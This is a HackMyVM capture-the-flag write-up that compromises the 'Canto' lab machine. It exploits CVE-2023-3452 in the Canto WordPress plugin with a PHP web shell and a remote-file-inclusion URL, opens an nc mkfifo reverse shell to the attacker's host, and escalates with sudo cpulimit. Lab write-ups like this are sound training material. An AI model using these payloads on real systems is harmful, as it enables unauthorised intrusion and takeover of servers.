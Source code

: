 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-my-vm/canto/","tags":["CTF","write-up"]}
---
```



![Pasted image 20241202214247.png|300](/img/user/attachments/Pasted%20image%2020241202214247.png)

---
> [!INFO] Info about Canto
> Linux machine.

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Executing a fast general scan to all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

---
# Enumeration
Executing a deep scan with common scripts only to ports that we are interested.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Ubuntu, linux
## Port 22 - SSH
22/tcp open  ssh     OpenSSH **9.3p1** Ubuntu 1ubuntu3.3 (Ubuntu Linux; protocol 2.0)
## Port 80 - Apache
80/tcp open  http    **Apache** httpd **2.4.57** ((Ubuntu))
Using **PHP**
http-title: Canto
http-generator: **WordPress 6.5.3**
http-server-header: Apache/2.4.57 (Ubuntu)

Add IP to `/etc/hosts`
```shell
sudo echo "192.168.122.80 canto.hmv" | sudo tee -a /etc/hosts
```

![Pasted image 20241204111339.png|700](/img/user/attachments/Pasted%20image%2020241204111339.png)
### Fuzzing
```shell
ffuf -c -t 100 -u http://canto.hmvm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc all -fc 404
```
I found the WordPress 1typical subdirectories
![Pasted image 20241204122039.png](/img/user/attachments/Pasted%20image%2020241204122039.png)

---
# Vulnerability analysis
## Port 80
### Wordpress
Run wpscan
```shell
wpscan --url http://canto.hmvm/ -e vp --api-token="55hrhgd.....9ohtf" --plugins-detection aggressive
```
![Pasted image 20241204132557.png](/img/user/attachments/Pasted%20image%2020241204132557.png)
`searchsploit` provided an exploit related with this vulnerability
![Pasted image 20241204170426.png](/img/user/attachments/Pasted%20image%2020241204170426.png)

---
# Exploitation
I test the CVE-2024-25096 provided from *wpscan*, but I had problems.
## CVE-2023-3452

> [!cite] NIST CVE-2023-3452
> The Canto plugin for WordPress is vulnerable to **Remote File Inclusion** in versions up to, and including, **3.0.4** via the 'wp_abspath' parameter. This allows unauthenticated attackers to include and **execute** arbitrary **remote code** on the server, provided that allow_url_include is enabled. **Local File Inclusion** is also possible, albeit less useful because it requires that the attacker be able to upload a malicious php file via FTP or some other means into a directory readable by the web server.

The exploit of *exploitdb* fails, so I decide to exploit it manually.

1. On the attacker machine, create a folder named `wp-admin` and PHP file into it
   ![Pasted image 20241204173950.png](/img/user/attachments/Pasted%20image%2020241204173950.png)
   Content of `admin.php`
   ```php
   <?php
	   echo shell_exec($_GET['cmd']);
   ?>
   ```
1. On the attacker, run a python HTTP server
   ```shell
   python -m http.server 4748
   ```
3. On the browser or Burpsuite
   ```php
http://canto.hmvm/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://192.168.122.192:4748&cmd=whoami
   ```
   ![Pasted image 20241204174806.png](/img/user/attachments/Pasted%20image%2020241204174806.png)
## Get a shell
If it works, we have some says to get a reverse shell.

I'll set a listener
```shell
rlwrap nc -lnvp 4747
```
In this case, I'll enter the browser and copy this (change the IPs and ports):
```php
http://canto.hmvm/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://192.168.122.192:4748&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.122.192%204747%20%3E%2Ftmp%2Ff
```
And we have a shell like `www-data`
![Pasted image 20241204180653.png](/img/user/attachments/Pasted%20image%2020241204180653.png)
I found a flag on the home, but a higher privilege is required to read it.

---
# Privilege escalation
On the home folder of `www-data` I check the `.bash_history`
![Pasted image 20241204181337.png|300](/img/user/attachments/Pasted%20image%2020241204181337.png)
Check the `txt` file and I found the credentials.
![Pasted image 20241204181609.png|400](/img/user/attachments/Pasted%20image%2020241204181609.png)
Login as *erik*
```shell
su erik
```
And enter the password
![Pasted image 20241204181802.png](/img/user/attachments/Pasted%20image%2020241204181802.png)
> [!check] User flag
> ![Pasted image 20241204182023.png](/img/user/attachments/Pasted%20image%2020241204182023.png)
## Get root
Check sudo permissions.
```shell
sudo -l
```
![Pasted image 20241204205037.png|700](/img/user/attachments/Pasted%20image%2020241204205037.png)
This can be exploited using *gtfobins*
![Pasted image 20241204205303.png|700](/img/user/attachments/Pasted%20image%2020241204205303.png)
```shell
sudo cpulimit -l 100 -f /bin/sh
```
![Pasted image 20241204205530.png](/img/user/attachments/Pasted%20image%2020241204205530.png)

> [!check] Root flag
> ![Pasted image 20241204205643.png](/img/user/attachments/Pasted%20image%2020241204205643.png)

---